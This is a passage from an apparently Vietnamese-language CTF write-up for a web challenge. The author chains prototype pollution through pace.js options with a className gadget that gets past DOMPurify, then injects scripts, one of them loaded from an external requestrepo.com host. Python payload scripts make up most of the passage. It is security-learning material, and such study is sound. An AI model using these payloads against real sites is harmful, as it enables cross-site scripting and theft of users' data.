 ```js
    var _custom_class_name = (options.className !== '') ? ' ' + options.className : '';
                this.el.innerHTML = '<div class="pace-progress' + _custom_class_name + '">\n  <div class="pace-progress-inner"></div>\n</div>\n<div class="pace-activity"></div>';
```
Đơn giản là dùng options className ròi inject vào nhưng vì mình đã có free html injection ròi nên làm ngắn thui..
```python
import requests


url ="https://fancy-text-generator-web.shared.challs.mt/"
url ="http://localhost:1337"

html = '''<img id="data-pace-options" data-pace-options='{"__proto__": {"polluted": "https://nj2n2pew.requestrepo.com/ex.js"}}'>
            '''
text =  html + '<a id ="contentBox">'
res = requests.get(url,params={"text":text})
print(res.text)
print(text)

```
Vậy là đã polluted thành công .
![image](https://hackmd.io/_uploads/BygxI9BNlg.png)
- Đến đây thì vấn đề là mình cần gọi script /loader.js một lần nữa để load vào nhưng mình không thể bypass được DOM purify . Cuối cùng vẫn phải dùng gadget className của pace js thui :vvv . Nó sẽ giúp mình bypass bằng cách mọi payload đều nằm trong một html attribute nên sẽ valid khi đi qua Dompurify.
- Sau một hồi ngồi escape các thứ thì mình có script sau : 
```python
import requests
import urllib.parse
import html



url ="http://localhost:1338"
url ="https://fancy-text-generator-web.shared.challs.mt"

options = ""

#htmls = '''<img id="data-pace-options" data-pace-options='{"__proto__": {"polluted": "https://nj2n2pew.requestrepo.com/ex.js"}}'><script>alert()</script>'''

def html_encode(s):
    return s.replace("&", "&amp;").replace("<", "&lt;").replace(">", "&gt;").replace('"', "&quot;").replace("'", "&#39;")

payload ='''aaaa\\"><script integrity=\\"sha256-1ltlTOtatSNq5nY+DSYtbldahmQSfsXkeBYmBH5i9dQ=\\" src=\\"/test.js?version=1\\"></script>'''
htmls = f'<img id="data-pace-options" data-pace-options=\'{{"startOnPageLoad":true,"__proto__":{{"polluted":"https://nj2n2pew.requestrepo.com/ex.js"}},"className": "{payload}"}}\'>'
text =  htmls + '<a id ="contentBox">'
res = requests.get(url,params={"text":text})
print(res.text)
print(payload)
print(url + "?text=" + urllib.parse.quote(text))

```
Đến đây thì script của mình được load rồi nhưng mà nó không gọi bất kì request nào cả ?
![image](https://hackmd.io/_uploads/B1yNWjrVlg.png)
![image](https://hackmd.io/_uploads/BkKVbsSNlg.png)